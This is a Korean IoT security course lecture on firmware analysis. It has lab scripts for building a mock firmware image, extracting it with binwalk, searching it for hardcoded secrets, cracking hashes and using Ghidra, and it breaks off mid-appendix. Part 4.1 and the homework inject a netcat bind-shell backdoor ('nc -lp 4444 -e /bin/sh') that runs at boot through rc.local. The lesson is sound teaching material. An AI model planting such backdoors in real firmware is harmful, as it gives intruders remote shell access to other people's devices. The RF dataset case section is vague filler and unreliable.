

# Week 04: 펌웨어 분석

## 학습 목표
- IoT 펌웨어의 구조와 포맷을 이해한다
- binwalk를 이용한 펌웨어 분석 및 추출 기법을 익힌다
- firmware-mod-kit으로 펌웨어를 수정하고 재패키징한다
- 펌웨어에서 민감 정보를 추출하는 기법을 학습한다
- 펌웨어 리버스 엔지니어링 기초를 실습한다

## 실습 환경 (공통)

| 서버 | IP | 역할 | 접속 |
|------|-----|------|------|
| attacker | 10.20.30.201 | 공격/분석 머신 | `ssh ccc@10.20.30.201` (pw: 1) |
| secu | 10.20.30.1 | 방화벽/IPS | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | IoT 서비스 호스트 | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (Wazuh) | `ssh ccc@10.20.30.100` |

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:40 | 펌웨어 구조 이론 (Part 1) | 강의 |
| 0:40-1:10 | 리버스 엔지니어링 심화 (Part 2) | 강의/토론 |
| 1:10-1:20 | 휴식 | - |
| 1:20-2:00 | binwalk 분석 실습 (Part 3) | 실습 |
| 2:00-2:40 | 펌웨어 수정 및 민감 정보 추출 (Part 4) | 실습 |
| 2:40-2:50 | 휴식 | - |
| 2:50-3:20 | Ghidra 리버싱 기초 (Part 5) | 실습 |
| 3:20-3:40 | 정리 + 과제 안내 | 정리 |

---

## Part 1: 펌웨어 구조 이론 (40분)

### 1.1 펌웨어란

펌웨어(Firmware)는 하드웨어에 내장된 소프트웨어로, IoT 디바이스의 운영체제, 애플리케이션, 설정을 포함한다.

**펌웨어 획득 방법:**
1. **제조사 웹사이트:** 업데이트 파일 다운로드
2. **OTA 캡처:** 업데이트 트래픽 가로채기
3. **하드웨어 추출:** SPI/JTAG를 통한 Flash 덤프
4. **UART 쉘:** 실행 중인 시스템에서 복사
5. **모바일 앱 분석:** 앱 내 펌웨어 파일 추출

### 1.2 펌웨어 이미지 구조

```
┌──────────────────────────────────┐
│        Boot Header               │ ← 매직 바이트, CRC
├──────────────────────────────────┤
│        Bootloader (U-Boot)       │ ← 시스템 초기화
├──────────────────────────────────┤
│        Kernel (Linux)            │ ← 운영체제 커널
├──────────────────────────────────┤
│        Root Filesystem           │ ← SquashFS, JFFS2, CramFS
│  ┌──────────────────────────┐   │
│  │ /bin  /etc  /lib  /usr   │   │
│  │ /sbin /var  /www  /tmp   │   │
│  └──────────────────────────┘   │
├──────────────────────────────────┤
│        Configuration             │ ← NVRAM, 설정 데이터
└──────────────────────────────────┘
```

### 1.3 주요 파일시스템

| 파일시스템 | 매직 바이트 | 특성 |
|-----------|------------|------|
| SquashFS | hsqs / sqsh | 읽기 전용, 압축, 가장 일반적 |
| JFFS2 | 0x1985 | NOR Flash용, 읽기/쓰기 |
| CramFS | 0x28cd3d45 | 읽기 전용, 압축 |
| UBIFS | UBI# | NAND Flash용 |
| ext4 | 0xEF53 | 범용 Linux |
| YAFFS2 | - | NAND Flash용 |

### 1.4 압축/암호화 포맷

| 포맷 | 매직 바이트 | 설명 |
|------|-----------|------|
| gzip | 1f 8b | GNU 압축 |
| bzip2 | BZ | bzip2 압축 |
| lzma | 5d 00 00 | LZMA 압축 |
| xz | fd 37 7a 58 5a | xz 압축 |
| uImage | 27 05 19 56 | U-Boot 이미지 헤더 |
| ELF | 7f 45 4c 46 | 실행 파일 |
| AES | - | 암호화 (매직 없음) |

---

## Part 2: 리버스 엔지니어링 심화 (30분)

### 2.1 ARM 아키텍처 기초

대부분의 IoT 디바이스는 ARM 프로세서를 사용한다.

**ARM 레지스터:**
```
R0-R3:  함수 인자/반환값
R4-R11: 범용 레지스터 (callee-saved)
R12:    IP (Intra-Procedure call scratch)
R13:    SP (Stack Pointer)
R14:    LR (Link Register, 리턴 주소)
R15:    PC (Program Counter)
CPSR:   상태 레지스터
```

**ARM 명령어 예시:**
```asm
; 함수 프롤로그
PUSH {R4-R7, LR}      ; 레지스터 저장
SUB  SP, SP, #0x10     ; 스택 할당

; 비밀번호 비교 함수 (취약한 구현)
LDR  R0, =password_buf  ; 사용자 입력
LDR  R1, =hardcoded_pwd ; 하드코딩된 비밀번호
BL   strcmp              ; 문자열 비교
CMP  R0, #0             ; 결과 확인
BEQ  auth_success        ; 0이면 인증 성공

; 함수 에필로그
POP  {R4-R7, PC}        ; 레지스터 복원, 리턴
```

### 2.2 MIPS 아키텍처 기초

라우터, 카메라 등에서 MIPS가 사용된다.

```asm
; MIPS 함수 호출 규약
$a0-$a3: 함수 인자
$v0-$v1: 반환값
$ra:     리턴 주소
$sp:     스택 포인터

; 예시: 백도어 확인 코드
lw    $a0, 0($sp)         ; 사용자명 로드
la    $a1, backdoor_user   ; "admin_debug"
jal   strcmp               ; 비교
beqz  $v0, grant_access    ; 일치하면 접근 허용
```

---

## Part 3: binwalk 분석 실습 (40분)

### 3.1 가상 펌웨어 생성

```bash
# 분석용 가상 펌웨어 이미지 생성
cat << 'BASH' > /tmp/create_firmware.sh
#!/bin/bash
set -e

WORK_DIR=/tmp/firmware_lab
mkdir -p $WORK_DIR/rootfs/{bin,etc,lib,www,tmp,var/log}

# /etc 설정 파일
cat > $WORK_DIR/rootfs/etc/passwd << 'EOF'
root:$1$xyz$hash123:0:0:root:/root:/bin/sh
admin:$1$abc$hash456:1000:1000:Admin:/home/admin:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
EOF

cat > $WORK_DIR/rootfs/etc/shadow << 'EOF'
root:$6$rounds=5000$saltsalt$longhashhere:18000:0:99999:7:::
admin:$6$rounds=5000$anothersalt$anotherhash:18000:0:99999:7:::
EOF

# 하드코딩된 인증 정보 (취약점)
cat > $WORK_DIR/rootfs/etc/config.ini << 'EOF'
[mqtt]
broker_host=10.20.30.80
broker_port=1883
username=iot_device
password=IoTPassw0rd!

[cloud]
api_url=https://api.iot-cloud.com
api_key=sk-iot-1234567890abcdef
secret=MyCloudSecret2024

[wifi]
ssid=Factory-IoT
psk=FactoryWiFi@2024
encryption=WPA2
EOF

# 웹 인터페이스
cat > $WORK_DIR/rootfs/www/index.html << 'EOF'
<html><head><title>IoT Dashboard</title></head>
<body><h1>IoT Gateway Dashboard</h1>
<script>var API_KEY="hardcoded_api_key_12345";</script>
</body></html>
EOF

# 인증서/키 (취약점)
mkdir -p $WORK_DIR/rootfs/etc/ssl
openssl req -new -x509 -days 365 -nodes \
  -keyout $WORK_DIR/rootfs/etc/ssl/server.key \
  -out $WORK_DIR/rootfs/etc/ssl/server.crt \
  -subj "/CN=iot-gateway" 2>/dev/null

# SquashFS 이미지 생성
sudo apt install -y squashfs-tools 2>/dev/null || true
mksquashfs $WORK_DIR/rootfs $WORK_DIR/rootfs.sqsh -noappend -comp gzip 2>/dev/null

# 펌웨어 이미지 조립
dd if=/dev/zero of=$WORK_DIR/firmware.bin bs=1M count=4 2>/dev/null

# 부트 헤더
printf '\x27\x05\x19\x56' | dd of=$WORK_DIR/firmware.bin bs=1 seek=0 conv=notrunc 2>/dev/null
printf 'U-Boot 2020.04 IoT-GW\x00' | dd of=$WORK_DIR/firmware.bin bs=1 seek=4 conv=notrunc 2>/dev/null

# SquashFS 삽입
if [ -f $WORK_DIR/rootfs.sqsh ]; then
  dd if=$WORK_DIR/rootfs.sqsh of=$WORK_DIR/firmware.bin bs=1 seek=524288 conv=notrunc 2>/dev/null
fi

echo "[+] 가상 펌웨어 생성 완료: $WORK_DIR/firmware.bin"
ls -lh $WORK_DIR/firmware.bin
BASH

chmod +x /tmp/create_firmware.sh
bash /tmp/create_firmware.sh
```

### 3.2 binwalk 분석

```bash
# binwalk 설치
sudo apt install -y binwalk

# 엔트로피 분석 (암호화 여부 확인)
binwalk -E /tmp/firmware_lab/firmware.bin

# 시그니처 스캔
binwalk /tmp/firmware_lab/firmware.bin

# 파일시스템 추출
binwalk -e /tmp/firmware_lab/firmware.bin -C /tmp/firmware_extracted/

# 재귀적 추출
binwalk -Me /tmp/firmware_lab/firmware.bin -C /tmp/firmware_deep/

# 결과 확인
find /tmp/firmware_extracted/ -type f | head -30
```

### 3.3 민감 정보 검색

```bash
# 추출된 파일시스템에서 민감 정보 검색
EXTRACTED="/tmp/firmware_extracted"

# 비밀번호/키 검색
grep -r -i "password\|passwd\|secret\|api_key\|psk\|credential" $EXTRACTED/ 2>/dev/null

# 하드코딩된 IP/URL 검색
grep -r -oE "https?://[a-zA-Z0-9./?=_-]+" $EXTRACTED/ 2>/dev/null
grep -r -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" $EXTRACTED/ 2>/dev/null

# 인증서/키 파일 검색
find $EXTRACTED/ -name "*.pem" -o -name "*.key" -o -name "*.crt" 2>/dev/null

# shadow 파일 해시 추출
find $EXTRACTED/ -name "shadow" -exec cat {} \; 2>/dev/null

# SSH 키 검색
find $EXTRACTED/ -name "id_rsa*" -o -name "authorized_keys" 2>/dev/null

# strings를 이용한 추가 분석
strings /tmp/firmware_lab/firmware.bin | grep -iE "(user|pass|key|secret|token)" | head -20
```

---

## Part 4: 펌웨어 수정 및 리패키징 (40분)

### 4.1 firmware-mod-kit 사용

```bash
# firmware-mod-kit 설치
git clone https://github.com/rampageX/firmware-mod-kit.git /tmp/fmk 2>/dev/null || true

# 또는 수동으로 SquashFS 수정
mkdir -p /tmp/fw_modified
cp -r /tmp/firmware_lab/rootfs/* /tmp/fw_modified/

# 백도어 추가 (교육 목적)
cat > /tmp/fw_modified/etc/backdoor.sh << 'EOF'
#!/bin/sh
# 교육용 백도어 시뮬레이션
nc -lp 4444 -e /bin/sh &
EOF
chmod +x /tmp/fw_modified/etc/backdoor.sh

# rc.local에 자동 실행 추가
cat > /tmp/fw_modified/etc/rc.local << 'EOF'
#!/bin/sh
/etc/backdoor.sh
exit 0
EOF

# 수정된 SquashFS 재패키징
mksquashfs /tmp/fw_modified /tmp/rootfs_modified.sqsh \
  -noappend -comp gzip 2>/dev/null

echo "[+] 수정된 펌웨어 패키징 완료"
ls -lh /tmp/rootfs_modified.sqsh
```

### 4.2 비밀번호 해시 크래킹

```bash
# shadow 파일에서 해시 추출
cat << 'EOF' > /tmp/iot_hashes.txt
root:$6$rounds=5000$saltsalt$longhashhere:18000:0:99999:7:::
admin:$1$abc$hash456:18000:0:99999:7:::
EOF

# hashcat 또는 john으로 크래킹
# john /tmp/iot_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

# IoT 공통 비밀번호 사전
cat << 'EOF' > /tmp/iot_passwords.txt
admin
root
password
1234
12345678
admin123
default
guest
support
user
EOF
```

### 4.3 펌웨어 비교 (diff)

```bash
# 두 버전의 펌웨어 비교
cat << 'PYEOF' > /tmp/fw_diff.py
#!/usr/bin/env python3
"""펌웨어 버전 비교 분석"""
import hashlib
import os

def hash_file(path):
    h = hashlib.sha256()
    with open(path, 'rb') as f:
        for chunk in iter(lambda: f.read(8192), b''):
            h.update(chunk)
    return h.hexdigest()

def compare_dirs(dir1, dir2):
    print(f"=== 펌웨어 비교: {dir1} vs {dir2} ===\n")
    
    files1 = set()
    for root, dirs, files in os.walk(dir1):
        for f in files:
            rel = os.path.relpath(os.path.join(root, f), dir1)
            files1.add(rel)
    
    files2 = set()
    for root, dirs, files in os.walk(dir2):
        for f in files:
            rel = os.path.relpath(os.path.join(root, f), dir2)
            files2.add(rel)
    
    added = files2 - files1
    removed = files1 - files2
    common = files1 & files2
    
    if added:
        print("[+] 추가된 파일:")
        for f in sorted(added):
            print(f"  + {f}")
    
    if removed:
        print("[-] 제거된 파일:")
        for f in sorted(removed):
            print(f"  - {f}")
    
    modified = []
    for f in sorted(common):
        p1 = os.path.join(dir1, f)
        p2 = os.path.join(dir2, f)
        if os.path.isfile(p1) and os.path.isfile(p2):
            if hash_file(p1) != hash_file(p2):
                modified.append(f)
    
    if modified:
        print("[~] 변경된 파일:")
        for f in modified:
            print(f"  ~ {f}")

compare_dirs('/tmp/firmware_lab/rootfs', '/tmp/fw_modified')
PYEOF

python3 /tmp/fw_diff.py
```

---

## Part 5: Ghidra 리버싱 기초 (30분)

### 5.1 Ghidra 소개

Ghidra는 NSA가 개발한 오픈소스 리버스 엔지니어링 도구이다.

**Ghidra 주요 기능:**
- 디스어셈블러 (ARM, MIPS, x86 등)
- 디컴파일러 (C 코드 복원)
- 바이너리 비교
- 스크립트 자동화 (Python/Java)

### 5.2 펌웨어 바이너리 분석

```bash
# 간단한 ARM 바이너리 분석 (교육용)
cat << 'PYEOF' > /tmp/analyze_binary.py
#!/usr/bin/env python3
"""간단한 바이너리 분석 도구"""
import struct
import sys

def analyze_elf(filepath):
    with open(filepath, 'rb') as f:
        magic = f.read(4)
        if magic != b'\x7fELF':
            print("[-] ELF 파일이 아닙니다")
            return
        
        ei_class = struct.unpack('B', f.read(1))[0]
        ei_data = struct.unpack('B', f.read(1))[0]
        
        print("=== ELF 분석 ===")
        print(f"클래스: {'32-bit' if ei_class == 1 else '64-bit'}")
        print(f"엔디안: {'Little' if ei_data == 1 else 'Big'}")
        
        f.seek(18)
        e_machine = struct.unpack('<H', f.read(2))[0]
        machines = {3: 'x86', 8: 'MIPS', 40: 'ARM', 62: 'x86-64', 183: 'AArch64'}
        print(f"아키텍처: {machines.get(e_machine, f'Unknown ({e_machine})')}")

def find_strings(filepath, min_len=8):
    print(f"\n=== 문자열 분석 (>={min_len}자) ===")
    with open(filepath, 'rb') as f:
        data = f.read()
    
    current = b''
    interesting = []
    for byte in data:
        if 32 <= byte < 127:
            current += bytes([byte])
        else:
            if len(current) >= min_len:
                s = current.decode('ascii')
                if any(kw in s.lower() for kw in ['pass', 'key', 'secret', 'admin', 'root', 'login', 'auth']):
                    interesting.append(s)
            current = b''
    
    for s in interesting[:20]:
        print(f"  [!] {s}")

# 분석 실행
filepath = '/tmp/firmware_lab/firmware.bin'
find_strings(filepath)
PYEOF

python3 /tmp/analyze_binary.py
```

### 5.3 Ghidra 스크립트 자동화

```python
# Ghidra Headless 분석 예시 (참고)
# analyzeHeadless /tmp/ghidra_project IoT_FW \
#   -import /tmp/firmware_extracted/usr/bin/httpd \
#   -postScript FindCrypto.py

# 취약 함수 탐지 스크립트 (Ghidra Python)
"""
dangerous_funcs = ['strcpy', 'strcat', 'sprintf', 'gets', 'scanf']
for func_name in dangerous_funcs:
    func = getGlobalFunctions(func_name)
    if func:
        refs = getReferencesTo(func[0].getEntryPoint())
        print(f"[!] {func_name}: {len(list(refs))} references")
"""
```

---

## Part 6: 과제 안내 (20분)

### 과제

- 가상 펌웨어를 binwalk로 분석하여 파일시스템을 추출하시오
- 추출된 파일시스템에서 하드코딩된 인증 정보 5개 이상을 찾으시오
- 펌웨어에 백도어를 삽입하고 재패키징하시오 (교육 목적)

---

## 참고 자료

- binwalk: https://github.com/ReFirmLabs/binwalk
- Ghidra: https://ghidra-sre.org/
- firmware-mod-kit: https://github.com/rampageX/firmware-mod-kit
- "Practical IoT Hacking" (Fotios Chantzis 외)

---

## 실제 사례 (WitFoo Precinct 6 — RF 공격)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *RF 공격* 학습 항목 매칭.

### RF 공격 의 dataset 흔적 — "Sub-GHz + WiFi"

dataset 의 정상 운영에서 *Sub-GHz + WiFi* 신호의 baseline 을 알아두면, *RF 공격* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — spectrum analyzer.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | Sub-GHz + WiFi |
| 정량 baseline | spectrum analyzer |
| 학습 매핑 | HackRF + RTL-SDR |

**자세한 해석**: HackRF + RTL-SDR. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | Sub-GHz + WiFi 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **RF 공격 = Sub-GHz + WiFi 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — spectrum analyzer.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: RF capture.

---

## 부록: 학습 OSS 도구 매트릭스 (Course17 IoT Security — Week 04 펌웨어 분석·binwalk·EMBA·Ghidra·diff)

> 이 부록은 본문 Part 3-5 의 lab (가상 펌웨어 생성 / binwalk 분석 / 민감
> 정보 검색 / firmware-mod-kit / Ghidra) 의 모든 명령을 *실제 OSS 펌웨어
> 분석 도구* 시퀀스로 매핑한다. 단순 binwalk → *통합 framework* (EMBA /
> FAT / FACT-core) + *동적 emul* (qiling / firmadyne / qemu-user-static)
> + *디컴파일* (Ghidra / radare2 + cutter) + *binary diff* (diaphora /
> bindiff) + *수동 분석 자동화* (firmwalker / firmware-analysis-plus) 까지
> 포괄. course16 week 11 부록 (펌웨어 회수 후 분석) 의 *심화 + IoT 특화*.

### lab step → 도구 매핑 표

| step | 본문 위치 | 학습 항목 | 본문 명령 | 핵심 OSS 도구 (실 명령) | 도구 옵션 |
|------|----------|----------|----------|-------------------------|-----------|
| s1 | 3.1 | mksquashfs 생성 | `mksquashfs ... -comp gzip` | mksquashfs / mkfs.jffs2 / ubinize / mkfs.cramfs | week 11 |
| s2 | 3.2 | 엔트로피 분석 | `binwalk -E` | binwalk -E / EMBA entropy / radare2 ?h | 그래프 |
| s3 | 3.2 | 시그니처 스캔 | `binwalk` | binwalk / file -k / hexdump magic | magic |
| s4 | 3.2 | 추출 | `binwalk -e -Me` | binwalk -e / unblob / firmware-mod-kit / 7z x | 재귀 |
| s5 | 3.3 | 민감 정보 grep | grep + strings | firmwalker / EMBA password module / trufflehog | 자동화 |
| s6 | 3.3 | shadow 추출 | find + cat | EMBA password / hashcat formatter / john | extract → crack |
| s7 | 4.1 | firmware-mod-kit | git clone | firmware-mod-kit / unsquashfs/mksquashfs | rampageX |
| s8 | 4.1 | 백도어 주입 | bash heredoc | unsquashfs / mksquashfs / fmk-extract.sh | lab |
| s9 | 4.2 | 해시 크래킹 | john / hashcat | hashcat -m 1800/500 / john --format=sha512crypt | week 13 |
| s10 | 4.3 | 펌웨어 diff | Python sha256 | diaphora (Ghidra/IDA) / bindiff / firmware-diff / FACT diff | 함수 단위 |
| s11 | 5.1 | Ghidra 소개 | (이론) | Ghidra / radare2 / cutter / IDA Free | 디컴파일 |
| s12 | 5.2 | ELF 분석 | Python struct | readelf / objdump / radare2 / Ghidra | 표준 |
| s13 | 5.3 | Ghidra 자동 | (참고) | Ghidra Headless / Ghidrathon / Ghidriff / FACT plugin | script |
| s14 | (추가) | 동적 emul | (없음) | qiling / firmadyne / FAT / qemu-user-static / docker-firmware | 부팅 |
| s15 | (추가) | 통합 audit | (없음) | EMBA / FACT-core / FirmAE / FwAnalyzer | framework |
| s16 | (추가) | OTA / TUF | (없음) | TUF / Uptane / signed boot | 방어 |

### 펌웨어 분석 도구 카테고리 매트릭스

| 카테고리 | 사례 | 대표 도구 (OSS) | 비고 |
|---------|------|----------------|------|
| **시그니처 / 추출** | bin → fs | binwalk / unblob / firmware-mod-kit / 7z | 표준 |
| **파일시스템 — SquashFS** | 읽기 전용 | unsquashfs / squashfs-tools | 가장 흔함 |
| **파일시스템 — JFFS2** | NOR Flash | jefferson / mtd-utils | NOR |
| **파일시스템 — UBIFS** | NAND Flash | ubi_reader / mtd-utils | NAND |
| **파일시스템 — CramFS** | 구형 IoT | cramfsswap / mkfs.cramfs | legacy |
| **파일시스템 — YAFFS2** | embedded NAND | yaffs-extract | NAND |
| **압축 — gzip/bz2/xz/lzma** | 표준 | gunzip / bunzip2 / xz / lzma-utils | 표준 |
| **엔트로피** | 암호화 검출 | binwalk -E / EMBA / ent / radare2 | shannon |
| **민감 정보 grep** | password / key | firmwalker / EMBA pwd_search / trufflehog / git-secrets | 자동 |
| **OS 식별** | Linux kernel / RTOS | EMBA OS detection / FAT identify | 자동 |
| **CVE matching** | 취약 component | EMBA cve module / cve-search / vulners-cli | NVD |
| **펌웨어 audit (자동)** | 통합 | EMBA / FACT-core / FAT / FirmAE / FwAnalyzer | framework |
| **수정 / 리패키징** | bin 변조 | firmware-mod-kit / unsquashfs+mksquashfs / FAT | lab |
| **diff (binary)** | 두 버전 비교 | diaphora (Ghidra/IDA) / bindiff (Zynamics) / firmware-diff | 함수 |
| **디컴파일 (정적)** | 어셈 → C | Ghidra / radare2+r2dec / cutter / IDA Free / Binary Ninja Free | reverse |
| **디스어셈블리** | bin → asm | objdump / radare2 / Ghidra / capstone-py | basic |
| **emul (동적)** | bin 부팅 | qiling / firmadyne / FAT / qemu-user-static / Triton | 자동 |
| **emul GUI** | sandbox | docker-firmware / FirmAE web | 시각 |
| **fuzzing** | crash 탐색 | AFL++ / boofuzz / libFuzzer + qemu | crash |
| **취약 함수 탐색** | strcpy/sprintf | Ghidra script / radare2 azs / cwe_checker | 정적 |
| **HW 키 추출** | RSA/ECC | EMBA cryptography module / openssl / find | cred |
| **OTA / 서명 검증** | 방어 | TUF / Uptane / signify / cosign / Mender | 방어 |
| **secure boot 검증** | 방어 | TF-A / OP-TEE / U-Boot Verified | 방어 |

### 학생 환경 준비

```bash
# attacker VM — 펌웨어 분석 도구
sudo apt-get update
sudo apt-get install -y \
   binwalk file hexedit \
   squashfs-tools cpio cabextract unzip p7zip-full \
   mtd-utils \
   xz-utils gzip bzip2 \
   strings binutils objdump readelf \
   radare2 \
   ghidra \
   gdb gdb-multiarch \
   qemu-user-static qemu-system-arm qemu-system-mips \
   hashcat john \
   python3-pip python3-venv

# unblob (binwalk 강화 대안)
pip3 install --user unblob[suggested]

# jefferson (JFFS2 reader)
pip3 install --user jefferson

# ubi_reader (UBIFS)
pip3 install --user ubi_reader

# firmware-mod-kit (rampageX fork — squashfs 다중 변형 지원)
git clone https://github.com/rampageX/firmware-mod-kit /tmp/fmk
cd /tmp/fmk/src && ./configure && make

# firmwalker (자동 grep)
git clone https://github.com/craigz28/firmwalker /tmp/firmwalker

# EMBA (통합 펌웨어 audit framework)
sudo curl -sLo /opt/emba.deb \
   https://github.com/e-m-b-a/emba/releases/latest/download/emba_latest.deb
sudo dpkg -i /opt/emba.deb || sudo apt-get -f install -y

# FACT-core (Firmware Analysis Comparison Toolkit)
git clone --recursive https://github.com/fkie-cad/FACT_core /tmp/fact
cd /tmp/fact && ./src/install/main.py

# FAT (Firmware Analysis Toolkit)
git clone --recursive https://github.com/attify/firmware-analysis-toolkit /tmp/fat
cd /tmp/fat && sudo ./setup.sh

# FirmAE (자동 emul)
git clone --recursive https://github.com/pr0v3rbs/FirmAE /tmp/firmae
cd /tmp/firmae && sudo ./download.sh && sudo ./install.sh

# qiling (binary emul framework — Python)
pip3 install --user qiling

# diaphora (Ghidra binary diff)
git clone https://github.com/joxeankoret/diaphora /tmp/diaphora

# Cutter (radare2 GUI)
sudo apt-get install -y cutter || \
   sudo flatpak install -y flathub re.rizin.cutter

# Binwalk Pro / radare2 r2dec (디컴파일러)
r2pm -i r2dec
r2pm -i ghidra-decompiler

# 검증
binwalk --version
unblob --version 2>&1 | head -1
unsquashfs -v 2>&1 | head -3
emba --version 2>&1 | head -1
ghidra-headless 2>&1 | head -3 || ls /usr/share/ghidra/support/
r2 -V 2>&1 | head -3
qiling --version 2>&1 | head -1
hashcat -V
```

### 핵심 도구별 상세 사용법

#### 도구 1: binwalk + unblob — 펌웨어 추출 비교 (s2-s4)

본문 binwalk 의 *경쟁자* unblob (ONEKEY) — 더 빠르고 정확. 두 도구 결과
비교 필수.

```bash
# 1. binwalk — 본문 표준
binwalk /tmp/firmware.bin
# DECIMAL    HEX     DESCRIPTION
# 0          0x0     U-Boot magic / uImage header
# 524288     0x80000 Squashfs filesystem, gzip
# 2097152    0x200000 ELF (binary)

# 2. binwalk 추출
binwalk -e /tmp/firmware.bin -C /tmp/extracted-binwalk/
ls /tmp/extracted-binwalk/_firmware.bin.extracted/

# 3. binwalk 재귀 (압축된 파일 안의 압축까지)
binwalk -Me /tmp/firmware.bin -C /tmp/extracted-binwalk-deep/

# 4. binwalk 엔트로피 (그래프 — 암호화 영역 검출)
binwalk -E /tmp/firmware.bin -F /tmp/entropy.png
xdg-open /tmp/entropy.png

# 5. unblob — 더 정확한 추출 (binwalk 의 알려진 false positive 제거)
unblob /tmp/firmware.bin --output-dir /tmp/extracted-unblob/

# 결과 비교
diff -r /tmp/extracted-binwalk/ /tmp/extracted-unblob/ | head -20

# 6. 7z (단순 — gzip/xz/zip 만)
7z x -y /tmp/firmware.bin -o/tmp/extracted-7z/

# 7. 직접 dd (오프셋 알 때)
dd if=/tmp/firmware.bin of=/tmp/squashfs-only.bin \
   bs=1 skip=524288 count=$((4*1024*1024-524288))
unsquashfs -d /tmp/squashfs-rootfs /tmp/squashfs-only.bin
```

#### 도구 2: EMBA — 통합 펌웨어 audit framework (s5-s6)

본문의 *민감 정보 grep + 해시 크래킹 + ELF 분석* 모두 자동화. 200+ check
+ HTML report + CVE 매칭.

```bash
# 1. EMBA full audit
sudo emba -l /tmp/emba-log -f /tmp/firmware.bin -W -E -t -p

# 옵션:
#   -W : web report (HTML)
#   -E : extract + analyze
#   -t : test mode (deeper)
#   -p : profile (basic / pre / sec / quick)

# 2. EMBA module 목록
ls /opt/emba/modules/
# F10_license_summary.sh
# F50_base_aggregator.sh
# P02_firmware_bin_file_check.sh
# P10_vendor_firmware_check.sh
# S05_firmware_details.sh         # 펌웨어 메타
# S06_distribution_identification.sh  # OS 식별
# S25_kernel_check.sh             # 커널 audit
# S30_version_vulnerability_check.sh   # CVE 매칭
# S107_deep_password_search.sh    # 비밀번호 deep search
# S109_jtr_local_pw_cracking.sh   # John Ripper 자동
# S116_qemu_version_detection.sh  # qemu emul 자동
# Q01_meta_processing.sh

# 3. HTML report
firefox /tmp/emba-log/html-report/index.html
# 섹션:
#   - Firmware details
#   - OS / kernel detection
#   - Filesystem extracted
#   - Binary analysis (suid / hardcoded creds)
#   - CVE matching (NVD lookup)
#   - YARA rule matches
#   - Cryptographic primitives (RSA / AES key 자동 추출)
#   - Suspicious binaries / scripts

# 4. CSV 결과 (CI/CD 통합)
ls /tmp/emba-log/csv-logs/
# F50_base_aggregator.csv
# S05_firmware_details.csv
# S30_version_vulnerability_check.csv

grep -h "CRITICAL\|HIGH" /tmp/emba-log/csv-logs/*.csv | head -20

# 5. 자동 GitHub Action (CI 통합 예)
cat << 'YAML' >> .github/workflows/firmware-audit.yml
name: EMBA Firmware Audit
on:
  push:
    paths: ['firmware/**']
jobs:
  audit:
    runs-on: ubuntu-latest
    container: embeddedanalyzer/emba:latest
    steps:
      - uses: actions/checkout@v4
      - run: emba -f firmware/release.bin -W -t -p basic
      - uses: actions/upload-artifact@v3
        with:
          name: emba-report
          path: log/html-report/
YAML
```

#### 도구 3: firmwalker + 자체 grep — 민감 정보 자동 (s5)

본문 grep 의 *완성형*. 펌웨어 추출된 squashfs-root 디렉토리 전체를 wordlist
기반으로 일괄 grep + 카테고리 분류.

```bash
# 1. firmwalker 사용
cd /tmp/firmwalker

# 추출된 펌웨어 root 입력
./firmwalker.sh /tmp/extracted-binwalk/_firmware.bin.extracted/squashfs-root/

# 결과 — firmwalker.txt 자동 생성
cat firmwalker.txt | head -50

# 출력 카테고리:
# - SSL files
# - SSH files
# - Configuration (/etc/passwd, etc)
# - Shell scripts
# - Web servers (Apache/nginx config)
# - Database (MySQL/sqlite)
# - Cloud services (AWS/Azure key)
# - IP addresses
# - URLs
# - Email addresses
# - Misc (admin password, api_key 등)

# 2. firmwalker 자체 wordlist 확인
cat /tmp/firmwalker/wordlists/general.txt | head -20
cat /tmp/firmwalker/wordlists/passfiles.txt | head -10

# 3. trufflehog (강력한 정규식 + 검증)
trufflehog filesystem /tmp/extracted-binwalk/_firmware.bin.extracted/ \
   --json > /tmp/trufflehog-fw.json

jq '.[] | select(.Verified==true) | {DetectorName, Raw, SourceMetadata}' \
   /tmp/trufflehog-fw.json

# 4. 자체 작성 grep (특정 패턴)
EXTRACTED=/tmp/extracted-binwalk/_firmware.bin.extracted/squashfs-root

# AWS key
grep -roE "AKIA[0-9A-Z]{16}" $EXTRACTED 2>/dev/null

# Telegram bot token
grep -roE "[0-9]{8,10}:[a-zA-Z0-9_-]{30,40}" $EXTRACTED 2>/dev/null

# JWT token
grep -roE "eyJ[a-zA-Z0-9_-]{10,}\.[a-zA-Z0-9_-]{10,}\.[a-zA-Z0-9_-]{10,}" $EXTRACTED 2>/dev/null

# 5. binwalk 자체 password 검색
binwalk --search-string="admin" /tmp/firmware.bin
binwalk --search-string="password" /tmp/firmware.bin
```

#### 도구 4: hashcat / john — IoT 펌웨어 해시 크래킹 (s9)

본문 4.2 의 표준 도구. /etc/shadow 의 비밀번호 해시 + IoT 디바이스 흔한
약 cred 사전 + GPU 가속.

```bash
# 1. shadow 해시 추출
